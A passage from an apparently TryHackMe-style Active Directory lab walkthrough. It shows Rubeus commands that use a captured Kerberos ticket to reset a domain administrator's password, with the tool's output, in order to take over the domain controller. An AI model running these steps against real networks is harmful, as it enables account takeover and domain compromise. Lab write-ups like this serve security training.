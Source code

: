 ```powershell
         ASREP (key)              :  BF2483247FA4CB89DA0417DFEC7FC57C79170BAB55497E0C45F19D976FD617ED
```

	- Example of the attack.

- We now need to use this `TGT` to gain access.
- This can be done using your favorite hacking framework like `Metasploit, Cobalt Strike, or Covenant`.
- However, for the purpose of this walkthrough, we will be using `Rubeus` again.

<u>In the VM</u>:

![](/assets/img/Pasted image 20230216192002.png)


#### Goal: We will use the ticket to ***alter the password of one of the domain administrators***.
- This will allow us to use the **DA's** credentials to log into the `Domain Controller` as administrator to recover the final flag.


##### Open the `AD Users and Computers` application and explore the domain structure, looking for the `DA`s:

![](/assets/img/Pasted image 20230216191656.png)


##### Select one of the DAs to target and use the following command to `alter their password`:

```powershell
PS C:\> .\Rubeus.exe changepw /ticket:<path to ticket file> /new:<new password for user> /dc:LUNDC.lunar.eruca.com /targetuser:lunar.eruca.com\<username of targeted DA>
```

<u>What's in the directory</u>:

![](/assets/img/Pasted image 20230216192330.png)

```powershell
PS C:\> .\Rubeus.exe changepw /ticket:C:\THMTools /new:coolPlanet /dc:LUNDC.lunar.eruca.com /targetuser:lunar.eruca.com\da-cyoung
```

	- "/new" : new password for the user to be changed into.


- Once the command executes, it should alter the password for the associated DA account:
<u>Example</u>:

```
C:\THMTools> .\Rubeus.exe changepw /ticket:svc.gitlab.kirbi /new:Tryhackme! /dc:LUNDC.lunar.eruca.com /targetuser:lunar.eruca.com\da-cyoung

______        _           
(_____ \     | |            
_____) )_   _| |__  _____ _   _  ___           
|  __  /| | | |  _ \| ___ | | | |/___)           
| |  \ \| |_| | |_) ) ____| |_| |___ |           
|_|   |_|____/|____/|_____)____/(___/                    

v2.0.0                  
[*] Action: Reset User Password (AoratoPw)                  
[*] Using domain controller: LUNDC.lunar.eruca.com (10.10.69.219)         
[*] Resetting password for target user: lunar.eruca.com\da-nread         
[*] New password value: Tryhackme!         
[*] Building AP-REQ for the MS Kpassword request        
[*] Building Authenticator with encryption key type: aes256_cts_hmac_sha1         
[*] base64(session subkey): UP+L2OgmJ281TkkXYNKR0ahLJni1fIk/XMBFwwNTP7Q=         
```